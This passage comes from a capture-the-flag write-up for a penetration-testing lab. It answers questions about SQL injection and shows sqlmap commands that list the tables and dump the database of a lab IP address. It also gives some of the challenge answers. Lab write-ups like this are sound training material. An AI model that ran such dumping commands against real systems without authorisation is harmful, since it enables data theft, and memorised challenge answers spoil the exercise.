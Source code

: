 2. How many types of sqli is the site vulnerable too?

	`3`

3. Dump the database.

	running `./sqlmap.py -u http://10.10.176.119 --forms --current-db --dump` gives us,

	![db dump](/assets/img/tryhackme/ccpentesting/ccpentest10.png)

4. What is the name of the database?

	`tests`

5. How many tables are in the database?

	running `./sqlmap.py -u http://10.10.176.119 --forms --tables` gives us this, so `2`

	![num tables](/assets/img/tryhackme/ccpentesting/ccpentest11.png)

6. What is the value of the flag?
